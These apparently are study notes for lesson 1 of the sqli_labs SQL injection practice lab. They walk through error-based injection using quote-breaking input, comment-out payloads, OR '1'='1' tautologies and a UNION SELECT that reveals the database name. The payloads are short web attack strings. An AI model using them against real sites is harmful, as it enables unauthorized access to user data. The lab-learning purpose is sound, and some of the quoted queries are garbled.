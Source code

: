 # sqli_labs
## lesson1
### Error-Based: Single Quotes,String
?id=1 or any other number gives the respective username and password, similar to the query: select * from TABLE where id=1;
In the url after trying some special cases, we find that odd number of single quotes breaks the query and also string input throwing error.
Error:  right syntax to use near ””) LIMIT 0,1′ at line 1.
?id=1′)–-+  : this gives us back the username and password. (here -- is used to comment out rest of the things).
Commonly used injections like ' OR '1'='1--
OR '1'='1' /*  in url after execution it would be like ?OR%20%271%27=%271%27%20/*
?id=-1' union select 1,2,database() --+
SELECT username,password from 'users' WHERE '?id'=0 OR 1=1; (here 1=1 is equivalent to true).
SELECT username,password from 'users' WHERE ?id=9 trying out different id no.s we get the desired output when id is 9.

